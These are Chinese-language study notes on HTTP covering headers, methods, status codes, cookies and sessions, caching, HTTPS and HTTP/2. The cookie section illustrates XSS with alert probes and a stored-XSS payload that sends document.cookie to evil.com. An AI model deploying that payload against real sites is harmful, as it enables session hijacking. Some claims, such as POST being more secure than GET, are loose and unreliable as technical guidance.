


# HTTP

## 基础概念

```http
GET http://www.example.com/ HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: max-age=0
Host: www.example.com
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947+gzip"
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 xxx

param1=1&param2=2
```

> Accept											告诉服务器我能接受哪些类型的资源
> Accept-Encoding							支持的数据压缩格式（gzip等）
> Accept-Language							浏览器偏好的语言
> Cache-Control								控制是否使用本地缓存
> Host												请求的是哪个主机
> If-Modified-Since							本地缓存资源在服务器修改时间（判断上一次连接之后服务器有没有修改过该资源）
> If-None-Match								本地资源的 ETag，用于条件请求
>
> （修改时间可能是s为单位的，不能及时更新，但是搭配ETag就可以很好的进行资源更新判断，只要资源修改过一次那么就会更新ETag）
> Proxy-Connection							给代理用的长连接设置（非标准）
> Upgrade-Insecure-Requests			表示愿意升级为 HTTPS
> User-Agent										浏览器和系统的信息

```http
HTTP/1.1 200 OK
Age: 529651
Cache-Control: max-age=604800
Connection: keep-alive
Content-Encoding: gzip
Content-Length: 648
Content-Type: text/html; charset=UTF-8
Date: Mon, 02 Nov 2020 17:53:39 GMT
Etag: "3147526947+ident+gzip"
Expires: Mon, 09 Nov 2020 17:53:39 GMT
Keep-Alive: timeout=4
Last-Modified: Thu, 17 Oct 2019 07:18:26 GMT
Proxy-Connection: keep-alive
Server: ECS (sjc/16DF)
Vary: Accept-Encoding
X-Cache: HIT

<!doctype html>
<html>
<head>
    <title>Example Domain</title>
	// 省略... 
</body>
</html>
```

> HTTP/1.1 200 OK													状态码，表示请求成功，服务器返回了网页内容
> Age: 529651															当前资源在缓存中存在的时间（秒），如 CDN 缓存了 6 天
> Cache-Control: max-age=604800							告诉浏览器或代理服务器：这个资源最多缓存 604800 秒（7天）
> Connection: keep-alive											告诉浏览器保持 TCP 连接，不用每次都重新连接
> Content-Encoding: gzip											响应内容使用了 gzip 压缩，节省带宽，加快加载速度
> Content-Length: 648												响应内容的大小（单位：字节，注意是压缩后的长度）
> Content-Type: text/html; charset=UTF-8				内容类型为 HTML 页面，字符编码为 UTF-8（支持多语言）
> Date: Mon, 02 Nov 2020 17:53:39 GMT				响应生成时间，服务器返回这份内容的时间戳
> Etag: "3147526947+ident+gzip"							当前资源的唯一标识符，用于条件缓存，浏览器下次请求可用 If-None-Match 比对是否更新
> Expires: Mon, 09 Nov 2020 17:53:39 GMT			HTTP/1.0 缓存策略，资源到这个时间前可以使用缓存（与 Cache-Control 搭配使用）
> Keep-Alive: timeout=4											表示当前连接会保持 4 秒后关闭（适用于 Keep-Alive）
> Last-Modified: Thu, 17 Oct 2019 07:18:26 GMT	资源最后修改时间，用于 If-Modified-Since 条件缓存判断
> Proxy-Connection: keep-alive								给代理服务器用的连接保持设置（非标准字段）
> Server: ECS (sjc/16DF)										服务器使用的软件信息（此处为边缘缓存服务器 ECS，可能是 CDN 节点）
> Vary: Accept-Encoding										代理服务器/缓存系统应该根据 Accept-Encoding（如 gzip、br）分别缓存不同压缩版本
> X-Cache: HIT														本次请求命中了缓存（如来自 CDN 或代理缓存），不是从源站重新拉取的

## HTTP方法

> GET						获取资源（最常见，用于浏览网页、获取数据）
> POST					 提交数据（如表单提交、创建资源）
> PUT						更新资源（整体替换）
> PATCH					局部更新资源
> DELETE				 删除资源
> HEAD					 获取资源的“头部信息”，不返回具体内容
> OPTIONS				查询服务器支持哪些请求方法
> TRACE					服务器会将和另一个主机通信的路径返回客户端（不常用）
> CONNECT				用于建立隧道连接（如 HTTPS 代理）

**GET和POST区别**

幂等的意思是一个操作无论执行一次还是多次结果都是一样的

| 对比点   | `GET`                       | `POST`                   |
| -------- | --------------------------- | ------------------------ |
| 传参方式 | 参数放在 URL 中（如 ?q=xx） | 参数放在请求体中         |
| 安全性   | ❌ 容易暴露敏感信息          | ✅ 更安全                 |
| 请求体   | 无（或非常少）              | 有（结构复杂、内容丰富） |
| 语义     | 获取数据                    | 提交/处理数据            |
| 缓存     | 浏览器可能缓存              | 一般不会缓存             |
| 幂等性   | ✅ 幂等（多次无副作用）      | ❌ 不幂等（可能重复创建） |

## HTTP状态码

| 状态码 |               类别               |            含义            |
| :----: | :------------------------------: | :------------------------: |
|  1XX   |  Informational（信息性状态码）   |     接收的请求正在处理     |
|  2XX   |      Success（成功状态码）       |      请求正常处理完毕      |
|  3XX   |   Redirection（重定向状态码）    | 需要进行附加操作以完成请求 |
|  4XX   | Client Error（客户端错误状态码） |     服务器无法处理请求     |
|  5XX   | Server Error（服务器错误状态码） |     服务器处理请求出错     |

## 具体应用



短连接：每进行一次HTTP通信就得建一个TCP连接

长连接：建立一次TCP连接就可以进行多次HTTP通信

流水线：流水线是在同一条长连接上连续发出请求，而不用等待响应返回，这样可以减少延迟

## Cookie

用途

> - 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
> - 个性化设置（如用户自定义设置、主题等）
> - 浏览器行为跟踪（如跟踪分析用户行为等）

创建过程

> 1. 服务器发送的响应报文中会有 Set-Cookie字段，客户端会将Cookie内容字段保存到浏览器中
>
> 2. 客户端之后对同一个服务器发送请求时，会从浏览器中取出 Cookie 信息并通过 Cookie 请求首部字段发送给服务器

分类

> - 会话期 Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。<mark>只在当前浏览器会话中有效</mark>
> - 持久性 Cookie：有设置过期时间（Expires）或有效期（max-age）就称为持久性的Cookie。<mark>即使浏览器关闭后仍然保留，直到过期</mark>

作用域Domain 

> 规定了当前主机下面的哪些子域名可以接受当前的Cookie
>
>
> 例如：Set-Cookie: token=abc123; Domain=example.com; Path=/; HttpOnly;
> 那么当前主机下面的所有包含example.com的子域名都可以共享Cookie
>
> 会被 example.com、www.example.com、api.example.com 等所有子域共享

Javascript

> 客户端使用Javascript设置Cookie
>
> 用document.cookie来设置Cookie
>
> 
>
> 这样容易招到XSS(跨站脚本攻击)：
>
> 1. 反射型XSS：攻击代码嵌在 URL 里，服务器没做过滤，原样返回给用户 → 浏览器执行
>
> http://example.com/search?q=<script>alert('XSS')</script>
>
> 2. 存储型XSS：恶意脚本被保存到数据库或评论系统、论坛等地方，所有人都会执行这段
>
> <script>fetch('http://evil.com/steal?c=' + document.cookie)</script>
>
> 3. DOM型XSS：服务器并没有返回恶意脚本，浏览器自己进行拼接的
>
> http://example.com/#<script>alert('XSS')</script> 
>
> /# 后面的内容是不会被服务器看到的，后面的内容是哈希部分
>
> 前端插入到网页里没有进行任何的转义

HttpOnly

> 标记为 HttpOnly 的 Cookie 不能被 JavaScript 脚本调用

Session

Session和Cookie的区别如下

| 对比项             | Cookie                               | Session                                      |
| ------------------ | ------------------------------------ | -------------------------------------------- |
| 存储位置           | 🧠 客户端（浏览器）                   | 💾 服务器端（如内存、Redis、数据库）          |
| 保存形式           | 文本（键值对），由浏览器保存在本地   | 对应一个唯一 ID，值存储在服务器上            |
| 容量限制           | 每个 Cookie ~4KB，总量有限           | 较大，不受浏览器限制                         |
| 安全性             | ❌ 较低（可被用户查看/修改）          | ✅ 更安全（用户无法直接访问）                 |
| 是否可跨域访问     | ❌ 只能访问设置它的域名               | ❌ 也不能跨域，Session 绑定在当前网站         |
| 常见用途           | 保存用户偏好、登录 token、语言设置等 | 保存登录状态、购物车、权限等敏感信息         |
| 生命周期           | 可设置过期时间或关闭浏览器后销毁     | 通常由服务器控制（可设置 session 过期时间）  |
| 是否自动随请求发送 | ✅ 每次请求自动携带（`Cookie` 头）    | ❌ 需要先通过 Cookie 或 URL 携带 `Session ID` |

> Session和Cookie的配合使用
>
>
> 1. 用户登录，服务器验证成功后创建 Session（如保存 `user_id`），服务器返回响应，**在 Cookie 中存一个 Session ID**：
>
> Set-Cookie: session_id=abc123; HttpOnly
>
> 2. 之后用户每次请求，浏览器自动带上这个 Cookie：
>
> Cookie: session_id=abc123
>
> 服务器根据这个 ID 找回 Session 内容，知道你是哪个用户。

## 缓存

- 让代理服务器进行缓存；
- 让客户端浏览器进行缓存

**Cache-Control**

<mark>禁止缓存</mark>

no-store 指令规定不能对请求或响应的任何一部分进行缓存。

```html
Cache-Control: no-store
```

<mark>强制确认缓存</mark>

no-cache 指令规定缓存服务器需要先向源服务器验证缓存资源的有效性，只有当缓存资源有效时才能使用该缓存对客户端的请求进行响应。

```html
Cache-Control: no-cache
```

<mark>私有缓存和公共缓存</mark>

private 指令规定了将资源作为私有缓存，只能被单独用户使用，一般存储在用户浏览器中。

```html
Cache-Control: private
```

public 指令规定了将资源作为公共缓存，可以被多个用户使用，一般存储在代理服务器中。

```html
Cache-Control: public
```

<mark>缓存过期机制</mark>

可以使用max-age字段以及Expires字段

```html
Cache-Control: max-age=31536000
Expires: Wed, 04 Jul 2012 08:26:05 GMT
```

<mark>缓存验证</mark>

- Etag

URL不能唯一表示资源。这是因为同一个URL，如果用户的http请求头的内容不一样的话，那么就会返回不同的页面（就是不同的资源版本）

所以需要借助Etang来表示不同的资源，将缓存的Etag放入If-None-Match中，并由服务器进行检查最新的资源的Etag是否相同，相同的话则返回304，否则就返回新的资源

- Last-Modified


Last-Modified是一种比较弱的验证，因为只能精确到秒级别的

```html
Last-Modified: Wed, 21 Oct 2015 07:28:00 GMT  # 是服务器告诉浏览器的资源上次修改时间；
If-Modified-Since: Wed, 21 Oct 2015 07:28:00 GMT # 是浏览器告诉服务器修改的时间
```

- Vary


Vary是服务器告诉缓存系统返回的信息是依赖于哪些主机字段的

如果Vary: Accept-Language

那么就会按照Accept-Language对返回的资源进行分类，例如有的是中文和英文则返回不同的资源

<mark>内容编码</mark>

服务器则从中选择一种，使用该算法对响应的消息主体进行压缩，并且发送 Content-Encoding 首部来告知浏览器它选择了哪一种算法。

常用的内容编码有：gzip、compress、deflate、identity。浏览器发送 Accept-Encoding 首部，其中包含有它所支持的压缩算法，以及各自的优先级。

<mark>范围请求</mark>

如果网络出现中断，服务器只发送了一部分数据，范围请求可以使得客户端只请求服务器未发送的那部分数据，从而避免服务器重新发送所有数据。

- Range

在请求报文中添加 Range 首部字段指定请求的范围。

```html
GET /z4d4kWk.jpg HTTP/1.1
Host: i.imgur.com
Range: bytes=0-1023
```

请求成功的话服务器返回的响应包含 206 Partial Content 状态码。

```html
HTTP/1.1 206 Partial Content
Content-Range: bytes 0-1023/146515
Content-Length: 1024
...
(binary content)
```

- Accept-Ranges

响应首部字段 Accept-Ranges 用于告知客户端是否能处理范围请求，可以处理使用 ==bytes==，否则使用 ==none==。

```html
Accept-Ranges: bytes
```

- 响应状态码

> 在请求成功的情况下，服务器会返回 206 Partial Content 状态码。
>
> 在请求的范围越界的情况下，服务器会返回 416 Requested Range Not Satisfiable 状态码。
>
> 在不支持范围请求的情况下，服务器会返回 200 OK 状态码。

<mark>分块传输编码</mark>

Chunked Transfer Encoding，可以把数据分割成多块，让浏览器逐步显示页面。

<mark>多部分对象集合</mark>

一份报文主体内可含有多种类型的实体同时发送，每个部分之间用 boundary 字段定义的分隔符进行分隔，每个部分都可以有首部字段。

> 例如 上传多个表单时可以使用如下方式：
>
> 移动端 / 前端上传多张图片，比如发朋友圈时选了三张图。
>
> 用 `POST` 请求 `multipart/form-data`，每张图都是一个 part。

<mark>虚拟主机</mark>

HTTP/1.1 使用虚拟主机技术，使得一台服务器拥有多个域名，并且在逻辑上可以看成多个服务器。

<mark>通信数据转发</mark>

**代理**

代理服务器接受客户端的请求，并且转发给其它服务器。

使用代理的主要目的是：

- 缓存
- 负载均衡
- 网络访问控制
- 访问日志记录

代理服务器分为正向代理和反向代理两种：



**网关**

网关服务器会将 HTTP 转化为其它协议进行通信，从而请求其它非 HTTP 服务器的服务。

这是网关的作用，接收协议然后转发到不同的服务器上

**隧道**

使用 SSL 等加密手段，在客户端和服务器之间建立一条安全的通信线路。

## HTTPS

HTTP具有下面三个缺点：

- 使用明文进行通信，内容可能会被窃听；
- 不验证通信方的身份，通信方的身份有可能遭遇伪装；
- 无法证明报文的完整性，报文有可能遭篡改。

HTTPS对此做出修改和调整，HTTPS流程如下所示

> 1. 客户端向服务器发送client-hello的请求，里面包含客户端所支持的HTTP协议，加密算法以及随机生成数Clinet_number
> 2. 服务器向客户端发送自己的证书，里面包含加密算法，随机数Server_number以及服务器的证书（里面包含公钥）
> 3. 客户端检验证书，并生成pre_master_secret数，并用公钥对这个数进行加密，然后发给服务器
> 4. 服务器用私钥进行解密得到pre_master_secret，这样通信双方都知道三个数：Clinet_number，Server_number以及pre_master_secret
> 5. 后面所有的请求以及通信都采用对称加密进行传输

**认证**

通过CA对通信方进行认证

> 1. 服务器的运营人员向 CA 提出公开密钥的申请，CA 在判明提出申请者的身份之后，会对服务器已申请的公开密钥用CA本身的私钥做数字签名
>
> 2. 在进行HTTPS通信的时候，服务器会将证书发送给客户端，里面有数字签名，由于浏览器内置了一批CA机构的公钥，所以客户端可以用公钥解密数字签名。
>
> 3. 客户端根据证书里面的哈希算法和加密算法对证书的内容进行计算，如果得到的值和第2步一样的话，那么就是通过认证

 **完整性保护**

> HTTPS 的报文摘要功能之所以安全，是因为它结合了加密和认证这两个操作。

## HTTP2.0

HTTP/2.0 将报文分成 HEADERS 帧和 DATA 帧，它们都是二进制格式的，是进行分开发送的。在1.0里面，HEADERS和DATA是合在一起发送的

**服务器推送**

HTTP/2.0 在客户端请求一个资源时，会把相关的资源一起发送给客户端，客户端就不需要再次发起请求了。

> 例如：
>
> 客户端请求GET /index.html，那么服务器会返回  index.html
>
>   + Server Push: style.css
>   + Server Push: script.js
>
> 但是HTTP1.0不会如下操作：
> 客户端请求：GET /index.html HTTP/1.0
> 服务器响应HTML代码里面会有如下代码：
>
> <link rel="stylesheet" href="style.css">
>
> <script src="script.js"></script>
>
> 浏览器解析HTML代码，并发现还有style.css和script.js，那么就会 重新向服务器发起请求，请求这两个资源

**首部压缩**

> HTTP/1.1 的首部带有大量信息，而且每次都要重复发送。
>
> HTTP/2.0 要求<mark>客户端和服务器同时维护和更新一个包含之前见过的首部字段表</mark>，从而避免了重复传输。

## GET和POST区别

**参数传递的位置**

> GET的参数是在URL中的
>
> POST的参数是在请求体中的

**安全**

> GET方法是安全的，因为只是读取资源
>
> POST方法是不安全的，因为POST会上传内容，服务器可能会将这些内容存储到数据库中

**幂等性**

> 幂等的意思是同样的请求被执行一次与连续执行多次的效果是一样的
>
> GET请求是幂等的，POST请求不是幂等的
>
> POST请求多次那么就会提交多次资源

 **可缓存**

> GET是可以缓存的
>
> POST是不可缓存的